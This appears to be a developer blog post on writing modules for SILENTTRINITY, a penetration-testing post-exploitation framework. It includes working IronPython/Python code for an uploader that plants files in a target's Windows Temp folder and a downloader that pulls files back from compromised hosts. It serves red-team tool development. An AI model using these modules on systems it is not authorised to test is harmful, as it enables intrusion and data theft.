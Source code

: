 ```yaml
---
layout: post
title:  "Writing a basic Module for SILENTTRINITY"
date:   2018-10-21 18:47:00 -0400
categories:
  - Code
tags:
  - Python
  - SILENTTRINITY
  - IronPython
  - Pentesting
---
```


***SILENTTRINITY*** is a post-exploitation agent powered by Python, IronPython and C#/.NET written by [byt3bl33d3r](https://twitter.com/byt3bl33d3r), also author of [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), the swiss army knife for pentesting networks. SILENTTRINITY was presented at DerbyCon 8.0 and everybody was really impressed (yes, I was also there). I really like C# (.NET) and Python, those are my favorites programming languages and [IronPython](https://github.com/IronLanguages/ironpython2) looks really promising. So why not contribute to this project? ![SILENTTRINITY][SILENTTRINITY-screenshot]

### How does this work?

The next image explains by itself how is the dynamic here. ![SILENTTRINITY-DIAGRAM][SILENTTRINITY-diagram]

The idea is really simple: we run our initial stager, the target ask for the payload and the encrypted communication continues back and forward waiting for a job, once a job is received the target executes the job (written in IronPython) and the output is sent to the server. I highly recommend to watch Marcello's talk to have a better idea of what we're talking about here and learn the beauty of SILENTTRINITY:

[![Track 2 05 IronPython omfg Marcello Salvati](https://img.youtube.com/vi/NaFiAx737qg/0.jpg)](https://www.youtube.com/watch?v=NaFiAx737qg)

### Let's code, baby!

This is the fun part. In order to have your Developer Environment up and running follow this Wiki: [Setting up your development environment](https://github.com/byt3bl33d3r/SILENTTRINITY/wiki/Setting-up-your-development-environment). I'm using [PyCharm Community Edition](https://www.jetbrains.com/pycharm/) and I'm running [Python 3.7.0](https://www.python.org/downloads/release/python-370/) on macOS. After creating a *virtualenv* and importing the `Server` folder into the IDE, we're ready to write some code, but first I'm sharing my PyCharm setting to show you how to properly debug Console apps:

![PyCharm Debug][SILENTTRINITY-pycharm-debug]

Cool. I'm going to use a simple module written by me called [Uploader](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/12).

```python
class STModule:
    def __init__(self):
        self.name = 'uploader'
        self.description = 'Upload a file to a destination path.'
        self.author = '@davidtavarez'
        self.options = {
            'File': {
                'Description': 'The absolute path of the file.',
                'Required': True,
                'Value': None
            },
            'Destination': {
                'Description': 'The destination path of the file.',
                'Required': False,
                'Value': "C:\\\\WINDOWS\\\\Temp\\\\"
            }
        }

    def payload(self):
        if self.options['File']['Value'] is None:
            return None

        import os
        import base64

        if not os.path.exists(self.options['File']['Value']):
            from core.utils import print_bad
            print_bad("Selected file do not exists.")
            return None

        with open(self.options['File']['Value'], "rb") as file:
            encoded_string = base64.b64encode(file.read()).decode("utf-8")

        with open('modules/src/uploader.py', 'r') as module_src:
            src = module_src.read()
            src = src.replace("FILENAME", os.path.basename(self.options['File']['Value']))
            src = src.replace("DESTINATION", self.options['Destination']['Value'])
            src = src.replace("DATA", encoded_string)
            return src.encode()
```

As you can notice, the class of the module must be called `STModule` and must include a `Constructor` and a definition of the method called `payload`. Our constructor must contains at least the next properties:

* ***name***: the name of the module.
* ***description***: a short summary of what your modules does.
* ***author***: your handle.
* ***options***: the options accepted in your module.

All options are displayed after we decided to use the module and run the `options` command:

```
ST (modules) ≫ use uploader  
ST (modules)(uploader) ≫ options
+-------------+----------+---------------------+-----------------------------------+
| Option Name | Required | Value               | Description                       |
+-------------+----------+---------------------+-----------------------------------+
| File        | True     | None                | The absolute path of the file.    |
+-------------+----------+---------------------+-----------------------------------+
| Destination | False    | C:\\WINDOWS\\Temp\\ | The destination path of the file. |
+-------------+----------+---------------------+-----------------------------------+
ST (modules)(uploader) ≫
```

To set a value we need to use the `set` command like this:

```
ST (modules)(uploader) ≫ set File /Users/davidtavarez/uploader.txt
ST (modules)(uploader) ≫ options
+-------------+----------+----------------------------------+-----------------------------------+
| Option Name | Required | Value                            | Description                       |
+-------------+----------+----------------------------------+-----------------------------------+
| File        | True     | /Users/davidtavarez/uploader.txt | The absolute path of the file.    |
+-------------+----------+----------------------------------+-----------------------------------+
| Destination | False    | C:\\WINDOWS\\Temp\\              | The destination path of the file. |
+-------------+----------+----------------------------------+-----------------------------------+
ST (modules)(uploader) ≫ 
```

### The payload

The payload that is written in IronPython is sent to the target using the `payload` method and the source code should be placed inside the folder named `src`.

```python
from System import Convert
from System.IO import File


def DecodeBase64File(Data, FileName, FilePath="C:\\WINDOWS\\Temp\\"):
    path = "{}{}".format(FilePath, FileName)
    File.WriteAllBytes(path,Convert.FromBase64String(Data))
    return 'File copied to: {}'.format(path)

print DecodeBase64File("DATA", "FILENAME", FilePath="DESTINATION")
```

The "tricky" part resides here: `print DecodeBase64File("DATA", "FILENAME", FilePath="DESTINATION")`. We're calling `print` to read the results of `DecodeBase64File`, so the output is sent to the server:

```
ST (modules)(uploader) ≫ run all
[+] d53c4737-c23e-4ec6-875a-c59e8ffa7056 returned job result (id: TmbazEXM)
File copied to: C:\WINDOWS\Temp\uploader.txt
```

Going back to the module code, we're replacing *DATA* with the content of the file named *FILENAME* and then, passing the *DESTINATION* folder to the payload.

![It's working!][UPLOADER-screenshot]

That's it! Summarizing, there are just two steps:

1. Create a class called: STModule with a constructor and a method named: `payload`.
2. Create your IronPython payload and pass the values taken from `options`.

### But... there's more...

I really wanted to manage the output using my module, so I send a [Pull Request](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/15) for this. This is how my base class looks now:

```python
class Module:
    def __init__(self):
        self.name = 'module'
        self.description = ''
        self.author = ''
        self.options = {}

    def process(self, result):
        print(result)
```

I did create a new module called: [Downloader](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/15/commits/f1c73b3341b91fea01988f18af9b60bcde6767ab) just as PoC:


```python
...
    def process(self, result):
        b64_string = result.replace("\n", "").replace("\r", "")
        b64_string += "=" * ((4 - len(b64_string) % 4) % 4)
        b64_string = b64_string.encode()

        ba = bytes(b64_string)

        with open(self.path, "wb") as file:
            file.write(base64.decodebytes(ba))

        print_good("File was downloaded successfully: {}".format(self.path))
```

Now we can have control of the response just overwritting the method: `process`.

[SILENTTRINITY-screenshot]: https://raw.githubusercontent.com/davidtavarez/davidtavarez.github.io/master/_images/posts/SILENTTRINITY_screenshot.png
[SILENTTRINITY-diagram]: https://user-images.githubusercontent.com/5151193/46646842-cd2b0580-cb49-11e8-9218-73226e977d58.png
[SILENTTRINITY-pycharm-debug]: https://raw.githubusercontent.com/davidtavarez/davidtavarez.github.io/4aa7a53f11c9ce9ed9957e60b1abace95afe5dda/_images/posts/pycharm_debug_SILENTTRINITY.png
[UPLOADER-screenshot]: https://user-images.githubusercontent.com/337107/46912579-41e5b180-cf47-11e8-8adf-d4873ee624ac.png